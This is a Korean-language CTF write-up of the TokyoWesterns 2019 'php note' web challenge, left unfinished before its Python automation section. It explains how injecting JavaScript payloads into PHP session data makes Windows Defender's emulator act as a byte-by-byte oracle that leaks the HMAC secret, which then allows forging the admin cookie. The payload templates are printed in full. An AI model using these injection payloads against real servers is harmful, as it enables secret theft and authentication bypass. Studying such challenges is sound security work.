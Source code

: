 # PHP-NOTE

---

## # Intro

이번 문제는 TokyoWesterns CTF 2019에서 나온 web 문제 "php note" 이다.

문제 사이트 링크는 다음과 같다. [http://phpnote.chal.ctf.westerns.tokyo](http://phpnote.chal.ctf.westerns.tokyo)

이 문제의 소스코드를 보기 위해서는 ?action=source 라고 요청을 보내면 php source 를 볼 수 있다.

이 문제의 기능을 간단히 설명하자면, 사용자가 입력한 note를 SESSION에 직렬화하여 저장하고, 작성한 글을 불러 올때는 SESSION에 있는 직렬화된 데이터를 역직렬화하여 웹 페이지에 출력한다.

---

## # Guess

이 문제의 소스코드를 봤을 때 처음 생각이 난 부분은 php serialization vulnerability와 [https://univ-blog.xyz/entry/web-Deadly-bug-code-php](https://univ-blog.xyz/entry/web-Deadly-bug-code-php) 여기에 나와있는 코드와 매우 유사한 부분인 점이다.

php serialization 부분을 찾아봤지만 이번 문제에서는 이용할 만한 취약점은 아니었다. 위 링크에 나와있는 코드와 문제의 일부분 코드가 유사해서 똑같은 방법으로 hash_hmac()에 array를 집어 넣어도 문제를 풀 만한 방향은 아니었다.

어쨋든 이 문제의 최종적인 목표는 isadmin을 1로 바꾸는 것이다. 이를 위해 note 라는 쿠키를 수정해서 보내면 무결성(?) 검사 코드로 인해 실패가 된다.

```php
<?php
function verify($data, $hmac) {
    $secret = $_SESSION['secret'];
    if (empty($secret)) return false;
    return hash_equals(hash_hmac('sha256', $data, $secret), $hmac);
}

/* ... */

$note = verify($_COOKIE['note'], $_COOKIE['hmac'])
        ? unserialize(base64_decode($_COOKIE['note']))
        : new Note(false);
?>
```

hmac 이라는 쿠키와 note라는 쿠키랑 비교하는데 note 값을 수정하면 무결성 검사로 isadmin을 1로 바꿀 수가 없다.
hmac 쿠키 값은 gen_secret($nickname) 함수의 리턴값 $_SESSION['secret'] 을 통해 sha256으로 해쉬 된다. secret 값을 알고 싶지만 session 에 저장되어 유출시킬 방법이 없었다...


그래서 포기...가 아니라 잠시 wrtieup이 올라 올때 까지 존버를 했다.

[https://saarsec.rocks/2019/09/04/twctf-phpnote.html](https://saarsec.rocks/2019/09/04/twctf-phpnote.html) 여기 링크에 php note의 writeup이 올라왔다.!!! 

사지방으로 달려가 흥분을 가라앉히고 천천히 롸업을 봤다.ㅎㅎ

이 이후는 위 링크를 참고하여 작성한 wrire up 이다.

---

## # Information of challenge "php note"

이 문제는 SECRET값과 realname, nickname을 SESSION 에 저장하고 관리한다. 따라서 만약 사용자가 이 사이트에 로그인을 하게 된다면 다음과 같이 SESSION 파일에 저장이 될것이다.

```
realname|s:11:"Hello World";nickname|s:6:"alfink";secret|s:32:"13371337133713371337133713371337";
```


이 문제는 windows 10 서버로 운영되고 있다. Response packet을 통해 알 수 있었다.
```
Response Header

Content-Length: 27171
Content-Type: text/html; charset=UTF-8
Date: Thu, 05 Sep 2019 04:53:10 GMT
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.9
```

기본적으로 windows 10은 Windows Defender가 깔려 있다. Windows Defender는 세션 파일을 포함한 모든 파일을 감시한다. 그래서 만약 세션 파일에 악의적인 스크립가 들어가 있다면, Windows Defender는 이 파일을 탐지하게 되고 로그인에 실패하게 된다. 

예를들어, realname에 ``` var miner = new CoinHive.User(); miner.start() ``` 라고 입력하고 가입을 하게 되면 어떻게 될까? 

Windows Defender 내장에는 javascript Engine이 있어 javascript 코드를 실행 할 수 있다고 한다. 따라서 위 javascript는 coin을 채굴하는 악성 스크립트로 판단하여 세션 파일을 탐지하고 로그인이 실패하게 된다. (실제로 login 입력 값을 악성 스크립트를 넘겼는데, 로그인이 안된다...미친..)

따라서 첫번째 스크립트를 포함해서 로그인을 시도하면 로그인이 되지 않고, 두번재는 그렇지 않았다.

```javascript
<script>
    var mal = 'var miner=new Coin';
    var n = document.body.innerHTML.charCodeAt(0);
    mal = mal + String.fromCharCode(n^40) + 'ive.User();miner.start';
    eval(mal);
</script>
```

```javascript
<script>
    var mal = 'var miner=new Coin';
    var n = document.body.innerHTML.charCodeAt(0);
    mal = mal + String.fromCharCode(n^65) + 'ive.User();miner.start';
    eval(mal);
</script>
```

위 코드를 이용해서 SESSION 값에 접근을 하여 SECRET 값을 유출 시킬 수 있다.

---

## # Approach the SECRET using javascript

SESSION에 javascript를 삽입하여 SESSION에 들어있는 SECRET을 유출시켜 보자.

php note 문제의 소스코드 중 다음과 같은 SESSION에 realname과 nicname, secret을 저장하는 코드가 있다.

```php
if ($action === 'login') {
    if ($method === 'POST') {
        $nickname = (string)$_POST['nickname'];
        $realname = (string)$_POST['realname'];

        if (empty($realname) || strlen($realname) < 8) {
            die('invalid name');
        }

        $_SESSION['realname'] = $realname;
        if (!empty($nickname)) {
            $_SESSION['nickname'] = $nickname;
        }
        $_SESSION['secret'] = gen_secret($nickname);
    }
    redirect('index');
}

```

위 코드의 흐름을 간단히 설명하자면 nickname 값이 없다면 realname, secret 순으로 저장이 된다.

**[nickname 값이 없을때]**

```
SESSION ==> realname|s:8:"universe";secret|s:32:"111111111111111111111111111111111111";
```

이 상태에서 nickname을 포함하여 다시 요청을 보내면 realname과 secret 값은 갱신이 되고 nickname은 SESSION 값의 맨 마지막에 추가가 된다.

**[nickname 값을 추가하여 다시 로그인 요청을 했을 때]**

```
SESSION ==> realname|s:8:"universe";secret|s:32:"111111111111111111111111111111111111";nickname|s:8:"universe";
```

위 SESSNION 값을 잘 보면 secret 값은 realname과 nickname 사이에 있는 것을 볼 수 있다. 

위에서 Windows Defender는 Javascript Engine을 가지고 있어 파일을 분석할때 사용된다고 말했다. 만약 realname 값에 <script>var body = document.body.innerHTML;</script><body>를 nickname 값에 </body> 값을 추가하여 로그인 하면 다음과 같은 SESSION 값을 가질 것이다.

```
SESSION ==> realname|s:67:"universe <script>var body = document.body.innerHTML;</script><body>";secret|s:32:"111111111111111111111111111111111111";nickname|s:15:"universe </body>";
```

그러면 Windows Defender는 위의 세션 파일을 검사하게 될 것이다. 아마도 Javascript Engine도 사용하여 검사를 할 것이다. 즉, 세션 파일에 <script> 태그가 있어 Javascript가 동작을 하게 되어 body 라는 변수에 document.body.innerHTML 값이 저장 된다. body[0]의 값은 ", body[1]의 값은 ;, body[2] 값은 s .... 이런식으로 세션 파일 내에 있는 값에 접근이 가능해 진다. (미쳐따..)
    
자, 우리는 SESSION 값 내에 접근을 할 수 있게 되었다. 하지만 웹 브라우저에 출력이 되는 것도 아니고 body[0]의 값을 들고 올 방법이 없다. 

여기서 Windows Defender의 Javascript Engine을 악용하는 방법을 이용한다. 위에서 설명했듯이 아래 javascript 를 이용하면 Windows Defender에 걸리지 않는다. 

```javascript
<script>
    var mal = 'var miner=new Coin';
    var n = document.body.innerHTML.charCodeAt(0);
    mal = mal + String.fromCharCode(n^65) + 'ive.User();miner.start';
    eval(mal);
</script>
```

위 코드를 일부분만 수정하면 다음과 같다.

```javascript
<script>
    var body = document.body.innerHTML;
    var mal = 'var miner=new Coin';
    var n = body[{offset}].charCodeAt(0);
    mal = mal + String.fromCharCode(n^{char_to_check})+'ive.User();miner.start(';
    eval(mal);
</script><body>
```

offset은 SESSION 값에 하나씩 접근하기 위해 index 값을 늘려주면 되고, 5번째 줄에 n^{char_to_check} 이 부분이 있다. 이것의 의미는 우선 우린 n의 값(body[0])을 모르기 때문에 임의의 문자(char_to_check)와 XOR 연산을 해서 이 값이 'H'가 아닌 다른 값이 된다면

```javascript
?ive.User(); miner.start('
```

값을 가질 것이고, 만약 XOR 연산을 했는데 "H" 가 나온다면

```javascript
Hive.User(); mineer.start('
```

가 되어 ``` var miner = new CoinHive.User(); miner.start( ``` 가 된다. Windows Defender는 이 세션 파일을 malware로 탐지하여 로그인이 되지 않을 것이다. 우리는 이것을 노리는 것이다. 로그인이 되지 않는 순간을 캐치해서 n의 값을 알 수 있게 된다.

여기까지가 SECRET 값에 접근하는 방법을 설명한 것이고 다음은 python코드로 이를 자동화 해보자.


---

## # Leaking the secret using python

작성중...



















